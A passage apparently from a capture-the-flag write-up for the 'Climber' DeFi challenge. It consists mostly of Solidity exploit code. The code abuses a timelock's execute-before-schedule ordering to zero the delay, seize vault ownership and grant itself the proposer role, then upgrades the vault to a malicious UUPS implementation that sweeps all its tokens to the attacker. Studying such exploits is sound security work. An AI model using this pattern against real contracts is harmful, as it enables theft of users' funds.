 ```sol
    function attack() public {
        targets[0] = address(timeclock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);

        targets[1] = address(vault);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSignature("transferOwnership(address)", msg.sender);

        targets[2] = address(timeclock);
        values[2] = 0;
        // We cannot use `_setupRole` here because it is a external function call (even though the contract is calling itself).
        dataElements[2] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));

        targets[3] = address(this);
        values[3] = 0;
        dataElements[3] = abi.encodeWithSignature("timelockSchedule()");

        timeclock.execute(targets, values, dataElements, 0);
    }

    function timelockSchedule() public {
        timeclock.schedule(targets, values, dataElements, 0);
    }
}

// Upgrade original contract to this one so we can sweep the funds.
contract ClimberVaultAttacker is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {
        _disableInitializers();
    }

    // Sweep funds.
    function sweepFunds(address token) external {
        SafeTransferLib.safeTransfer(token, msg.sender, IERC20(token).balanceOf(address(this)));
    }

    // By marking this internal function with `onlyOwner`, we only allow the owner account to authorize an upgrade
    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}

```

It's also important to note that the challenge's code utilizes [Hardhat UUPS Upgradeable APIs](https://docs.openzeppelin.com/upgrades-plugins/1.x/api-hardhat-upgrades#deploy-proxy) for setting up the context. To understand how to execute a UUPS upgrade, we can refer to the documentation provided by Hardhat on this topic.
